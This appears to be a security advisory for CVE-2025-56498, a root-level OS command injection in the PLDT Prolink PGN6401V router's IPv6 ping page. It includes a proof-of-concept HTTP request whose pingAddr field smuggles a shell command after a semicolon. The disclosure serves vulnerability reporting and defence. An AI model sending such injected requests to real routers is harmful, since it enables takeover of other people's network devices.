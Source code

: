 # CVE-2025-56498: OS Command Injection in PLDT Prolink PGN6401V Router

## Basic Information

| **Field** | **Value** |
| :--- | :--- |
| **CVE ID** | [CVE-2025-56498](https://www.cve.org/CVERecord?id=CVE-2025-56498) |
| **Title** | OS Command Injection in `ping6.asp` via `pingAddr` parameter |
| **Vendor** | PLDT / Prolink |
| **Product** | PLDT WiFi Router (Prolink PGN6401V) |
| **Affected Version** | Firmware V8.1.2 (other versions likely affected) |
| **Vulnerability Type** | CWE-78: OS Command Injection |
| **Impact** | Remote Code Execution (RCE) with root privileges |
| **CVSS Score** | Pending NVD Analysis |
| **Discoverer** | Jorge Patrick S. Rubio |

## Overview
An OS command injection vulnerability exists in PLDT WiFi Router's Prolink PGN6401V Firmware 8.1.2 web management interface. The ping6.asp page submits user input to the /boaform/formPing6 endpoint via the pingAddr parameter, which is not properly sanitized. An authenticated attacker can exploit this flaw by injecting arbitrary system commands, which are executed by the underlying operating system with root privileges. The router uses the Boa web server (version 0.93.15) to handle the request. Successful exploitation can lead to full system compromise and unauthorized control of the network device.

## Vulnerability Details
The vulnerability resides in the IPv6 diagnostic utility of the router's web interface. The `ping6.asp` page submits user-controlled input from the `pingAddr` parameter via a POST request to `/boaform/formPing6`. This input is not properly sanitized before being passed to a system shell command, allowing for injection of arbitrary commands using shell metacharacters.

*   **Affected Component:** `ping6.asp` page and the `/boaform/formPing6` form handler.
*   **Vulnerable Parameter:** `pingAddr`
*   **Web Server:** Boa/0.93.15

## Proof of Concept (PoC)
An authenticated attacker can send a crafted HTTP POST request to exploit this vulnerability.

**Request:**
```http
POST /boaform/formPing6 HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Cookie: [VALID_ADMIN_SESSION_COOKIE]
Content-Length: 87

pingAddr=192.168.1.1%3Bid%3B&wanif=65535&go=+Go&submit-url=%2Fping6.asp
```

## References
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)  
- [OWASP: Command Injection](https://owasp.org/www-community/attacks/Command_Injection)  
- [PortSwigger Web Security Academy: OS Command Injection](https://portswigger.net/web-security/os-command-injection)  
